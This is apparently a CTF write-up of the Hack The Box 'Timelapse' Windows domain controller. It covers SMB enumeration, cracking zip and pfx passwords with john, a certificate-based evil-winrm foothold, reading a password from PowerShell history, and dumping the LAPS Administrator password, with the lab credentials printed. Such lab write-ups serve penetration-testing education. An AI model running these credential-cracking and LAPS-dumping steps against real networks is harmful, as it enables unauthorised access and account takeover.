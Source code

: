 # Nmap Scan

nmap -sC -sV 10.10.11.152 -o nmap/timelapse  -v -e tun0

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-20 03:04:44Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 8h00m01s
| smb2-time: 
|   date: 2022-04-20T03:04:54
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required


## Open Ports

PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl



Add timelapse.htb to /etc/hosts
![image](https://user-images.githubusercontent.com/129129988/228107977-f15d0ee4-4d38-4988-944f-bb0233b247f9.png)

running masscan also revealed PORT     STATE SERVICE  VERSION 
5986/tcp open  ssl/http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) 
|_http-title: Not Found 
| ssl-cert: Subject: commonName=dc01.timelapse.htb 
| Issuer: commonName=dc01.timelapse.htb 
| Public Key type: rsa 
| Public Key bits: 2048 
| Signature Algorithm: sha256WithRSAEncryption
 

(WinRM) 
is a Microsoft protocol that allows remote management of Windows machines over HTTP(S) using SOAP. On the backend it's utilising WMI, so you can think of it as an HTTP based API for WMI.

The easiest way to detect whether WinRM is available is by seeing if the port is opened. WinRM will listen on one of two ports:

• 5985/tcp (HTTP)
• 5986/tcp (HTTPS)

## Service Enumeration

We dont have a webserver running but we do have SMB on port 139.

smbclient -L \\\\10.10.11.152\\ 

![image](https://user-images.githubusercontent.com/129129988/228108158-548a409b-a6e4-49e9-840a-af342b969111.png)

Enurating the Shares Folders I found 2 other folder Dev, and Help Desk
smbclient \\\\10.10.11.152\\Shares

![image](https://user-images.githubusercontent.com/129129988/228108216-76e218b5-0f11-4f00-b6bd-e19d9ad4ada6.png)

Within the Dev folder 
![image](https://user-images.githubusercontent.com/129129988/228108258-c4e2548e-240f-4d8f-9d7d-ccfaaeeb3647.png)


We can see a winrm_backup.zip

using the command get we can download the zip file. 
![image](https://user-images.githubusercontent.com/129129988/228108449-833aae2a-1ef5-453f-a6f2-bce3922b05fc.png)


We can also download all the contents in the HelpDesk we might use it later on. 
![image](https://user-images.githubusercontent.com/129129988/228108482-b1f1a1da-f473-4a3b-a273-20c147840418.png)

it looks like just some documentation. 

As for the zip file looks like its password protected. 

![image](https://user-images.githubusercontent.com/129129988/228108525-f73d9ecf-2b63-41fc-b370-bcc9b4967e8d.png)


also we can see the contents on the file legacyy_dev_auth.pfx 
After googling a little pfk file 

![image](https://user-images.githubusercontent.com/129129988/228108562-7c81c74a-2145-4ec8-a988-8ee05980524a.png)

looks like there is a way to extract .crt and .key form the .pfx file. 
We can use John to crack the password for the zip file 

First use zip2john command to create a file that john can use to crack the password. 

 zip2john winrm_backup.zip > hashZipPassword 

![image](https://user-images.githubusercontent.com/129129988/228108593-ea9c2b88-e692-4b24-9239-6ed1ca218dc7.png)


Now we can crack the password. 

john --wordlist=/usr/share/wordlists/rockyou.txt hashZipPassword

![image](https://user-images.githubusercontent.com/129129988/228108625-10c0f64f-4cd6-4bc7-aba6-c9b2f2b85852.png)

As you can see The password to the zip file is supremelegacy.

![image](https://user-images.githubusercontent.com/129129988/228108679-f8ec1877-c2d1-4be8-bb08-4d3aba008016.png)


Wow that we have the data file lets try to extract the key and cert. 
This command can analyse the .pfx and dump the key. 
openssl pkcs12 -in [yourfile.pfx] -nocerts -out [drlive.key]

So the .pfx file has an import password; After try the previous password this did not work. 

![image](https://user-images.githubusercontent.com/129129988/228108707-6b383091-06ef-480d-8282-793db338ef38.png)


john has alot of featuers one of which is the suffix 2john were we can crack pdf passwords as you saw zip and now pfx 
pfx2john legacyy_dev_auth.pfx > pfxPassword.txt

![image](https://user-images.githubusercontent.com/129129988/228108736-86427d12-77f1-4127-8cd6-e91d64e71a43.png)


Cracking the password for pfx  
john --wordlist=/usr/share/wordlists/rockyou.txt pfxPassword.txt 

![image](https://user-images.githubusercontent.com/129129988/228108768-40762d99-d89b-431f-82e2-c10005808df2.png)

Now we have the password for the pfx file. thuglegacy
We can learn more about the private key and public key here. 
https://tecadmin.net/extract-private-key-and-certificate-files-from-pfx-file/

MoreInfo - https://www.howtouselinux.com/post/pfx-file-with-examples


Using this new password, I obtained the private key file. 
Private.key
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out prv.key


![image](https://user-images.githubusercontent.com/129129988/228108797-4ad57284-c7b8-42ac-9c6f-8240aa2b1c64.png)

![image](https://user-images.githubusercontent.com/129129988/228108823-25692306-bc56-4667-be40-3db0c57b8a4c.png)


Certificate.crt
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out certificate.crt

![image](https://user-images.githubusercontent.com/129129988/228108874-bd01b6bf-8953-489d-98aa-7117af58d3a3.png)


# Foothold
WinRM is on port 5986. We can use the evil-winrm tool to connect. 

evil-winrm -i 10.10.11.152 -S -c certificate.crt -k prv.key -p -u

![image](https://user-images.githubusercontent.com/129129988/228109055-980b9f4b-cce2-438e-8257-c0e73395006e.png)


The -S parameter refers to the ssl parameter connection, -c is the public key, -k is the private key, -p and -u are the username and password, respectively

Navigate to Desktop to get user.txt 

# Privesc to Root

Furthermore we have a couple of Users;
![image](https://user-images.githubusercontent.com/129129988/228109171-9240b154-9133-4703-9feb-362d6fc93cc7.png)

svc_deploy looks intresting, and legacyy

download winpeas inside the same directory you got a shell in using evil-winrm
Download Link:
https://github.com/carlospolop/PEASS-ng/releases/download/20220417/winPEASx64.exe

now type 
upload <winPeas_File>

![image](https://user-images.githubusercontent.com/129129988/228109207-e8f692a9-a860-4f78-a88e-6ee95e2b071e.png)


After further enumeration on the box, I found  ConsoleHost_history.txt in 
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine

![image](https://user-images.githubusercontent.com/129129988/228109227-84194fce-79d7-4dd3-8fd7-d41d5a3f2b0c.png)


view this we can see that we have another user named svc_deploy 
with the password: E3R$Q62^12p7PLlC%KWaxuaV
$c -port 5986 -usessl

Reffering back to the files that we downloaded it has a title LAPS; using a little bit of google I found that we can dump passwords for loacal Administrator is if we have access to username and password on domain. 
https://www.n00py.io/2020/12/dumping-laps-passwords-from-linux/
 
Google Search LAPS Meaning: 
"The Local Administrator  Password Solution (LAPS) provides a solution to this issue of using a  common local account with an identical password on every computer in a  domain. LAPS resolves this issue by setting a different, random password for the common local administrator account on every computer in the domain."

We can try to dump password for admin account, by dumping the LAPS
https://github.com/n00py/LAPSDumper

Inside the article we have the link to the github
clone the repository then 
python3 laps.py -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d timelapse.htb

![image](https://user-images.githubusercontent.com/129129988/228109274-1221eb79-d399-4266-95dc-b59221493382.png)


You can see we have the updated hash:
4f6ot8,Tn%Iu2H91px}Kzu+4
password for Administrator

![image](https://user-images.githubusercontent.com/129129988/228109296-569d3f35-a053-41e3-8e7e-6ea716b557b9.png)

I found the rootFlag 

![image](https://user-images.githubusercontent.com/129129988/228109335-f0f81aef-f787-49dd-b29b-6507c935d340.png)

![image](https://user-images.githubusercontent.com/129129988/228109353-bf0629d5-8ba4-446c-8988-04138e761fb1.png)



